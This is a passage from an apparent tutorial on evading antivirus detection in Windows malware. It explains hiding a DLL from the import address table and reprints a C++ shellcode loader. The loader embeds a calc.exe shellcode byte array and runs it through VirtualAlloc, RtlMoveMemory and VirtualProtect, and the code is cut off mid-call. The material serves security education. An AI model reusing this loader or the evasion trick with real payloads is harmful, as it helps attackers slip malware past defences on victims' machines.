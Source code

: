 So what is important here? Is that if you compile your code, compiler will not include `hacker.dll` into import address table. So AV engine will not be able to see that during static analysis.

Let's see how we can practically use this technique. Let's take a look at the source coude of our first malware from [part 1](http://127.0.0.1:4000/tutorial/2021/09/04/simple-malware-av-evasion.html):
```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
```